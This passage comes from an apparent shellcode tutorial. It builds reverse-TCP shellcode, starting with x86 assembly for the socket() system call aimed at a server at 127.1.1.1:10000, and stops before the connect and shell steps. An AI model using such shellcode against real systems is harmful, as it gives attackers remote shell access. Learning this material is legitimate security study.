     * Bingo! You have a shell right there. So, we got our C program right. 

    * Play around with it a little bit, try it with different Port Numbers, IP Addresses(from the available). Get comfortable with the concept of Reverse-TCP Shellcode. 


# Assembly program for Reverse-TCP Shellcode

This is obviously not as simple as Standard Shellcode. In fact, Standard Shellcode is a part of Reverse-TCP Shellcode. So, with the C program as reference, let us go ahead and write assembly code for each individual part and then combine them together to give the complete program. 

Consider the server is at IP Address = **127.1.1.1**, Port Number = **10000** 


1. Creating a **TCP-socket**. 

    * In C, we did it like this: 

            socket(AF_INET, SOCK_STREAM, 0);
    
    * In x86 assembly, 
        
        * We first have to load **socket**'s system call number into **eax**. 
        * Then value of **AF_INET** into **ebx** - First Argument
        * Value of **SOCK_STREAM** into **ecx** - Second Argument
        * **0** into **edx** - Third Argument
        * Issue an Interrupt - **int 0x80**
    
    * You can find system call numbers of all system calls in the file **/usr/include/asm/unistd_32.h**. The following is **socket**'s system call number. 

            #define __NR_socket 359

    * You can find values of all Address Families in the file **/usr/include/bits/socket.h**. 

            #define PF_INET         2       /* IP protocol family.  */
            #define AF_INET         PF_INET

        * So, Value of AF_INET = 2
    
    * You can find values assigned to different types of sockets in **/usr/include/socket_type.h**

            SOCK_STREAM = 1,              /* Sequenced, reliable, connection-based
                                   byte streams.  */
            #define SOCK_STREAM SOCK_STREAM

    * With everything found out, we can write assembly code for creating a socket. 

            ; Creating a socket
            mov eax, 359
            mov ebx, 0x2
            mov ecx, 0x1
            mov edx, 0x0
            int 0x80

            ; Store the socket File Descriptor in ebx
            mov ebx, eax
